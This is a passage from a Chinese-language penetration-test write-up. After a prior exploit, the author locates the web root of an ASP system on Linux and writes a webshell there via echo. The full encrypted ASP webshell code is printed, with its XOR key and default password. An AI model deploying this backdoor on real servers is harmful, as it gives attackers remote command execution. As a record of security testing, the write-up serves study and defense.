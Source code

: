没有找到可以直接利用的

编程语言环境也没有发现

### 3\. Webshell

![图片](assets/1710993392-ade3b07d42cb6064e28062b0159f8970.png)

这本身是个 web 系统啊，还是 `asp` 的，啊？Linux 上的 `asp` 还真是少见，我直接写一个 `asp` 的木马进去不就完了吗？

先找到 web 路径，从漏洞利用 PoC 可以知道，`./webLib` 对应的应该就是根目录

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

直接访问 `index.asp` 和 `dispatch.asp` 会跳转到登录口 `/doc/page/login.asp` ，那就先找一下登录页面相关的路径吧，这样可能更容易访问一些，绝对路径如下

```plain
/home/webLib/doc/page
```

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

通过 echo 写入 Webshell

```plain
<%
Response.CharSet = "UTF-8" 
k="e45e329feb5d925b" '该密钥为连接密码 32 位 md5 值的前 16 位，默认连接密码 rebeyond
Session("k")=k
size=Request.TotalBytes
content=Request.BinaryRead(size)
For i=1 To size
result=result&Chr(ascb(midb(content,i,1)) Xor Asc(Mid(k,(i and 15)+1,1)))
Next
execute(result)
%>
```
